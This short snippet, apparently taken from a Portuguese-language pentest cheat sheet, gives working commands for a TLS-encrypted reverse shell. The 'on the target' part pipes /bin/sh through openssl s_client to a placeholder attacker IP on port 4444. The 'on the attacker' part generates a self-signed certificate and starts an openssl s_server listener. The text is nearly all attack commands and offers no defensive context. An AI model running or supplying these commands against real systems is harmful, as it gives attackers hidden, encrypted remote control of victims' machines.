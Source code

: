 # No alvo:
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect SEU_IP:4444 > /tmp/s

# No atacante:
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
